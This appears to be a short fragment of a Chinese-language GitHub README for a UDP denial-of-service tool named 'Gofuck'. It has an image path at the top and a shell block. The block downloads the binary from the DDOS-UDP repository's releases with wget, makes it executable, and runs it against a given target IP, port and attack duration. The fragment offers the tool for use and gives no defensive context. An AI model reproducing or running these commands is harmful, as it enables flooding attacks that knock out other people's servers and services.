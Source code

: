 
	  使用前使用 chmod +x Gofuck 赋予执行权限。
	
使用参数：
```shell
wget https://github.com/xxsisis/DDOS-UDP/releases/download/v1.0.0/Gofuck
chmod +x Gofuck
./Gofuck <IP地址> <端口> <攻击持续时间>
```

